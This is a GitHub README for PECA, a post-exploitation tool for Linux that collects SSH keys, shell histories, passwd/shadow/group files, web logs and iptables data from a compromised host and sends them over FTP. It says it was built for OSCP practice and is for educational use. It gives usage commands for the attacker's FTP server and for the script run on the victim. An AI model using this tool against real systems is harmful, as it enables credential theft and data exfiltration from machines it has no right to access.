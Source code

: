 # PECA
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
Note: For educational use only

##### Requirments

    To run the server you will need to have pyftpdlib installed
  
##### Intro:

  Peca was designed to help collect key files from linux 
  machines after exploitation has occured. Originally
  designed to help with data gathering during the OSCP

##### Features:

  * Collects ssh keys from root and home directories
  * Collects .bash* from root and home directories
  * Collects passwd/shadow/group files
  * Collects webservice logs from popular services
  * Collects IPTable data


##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```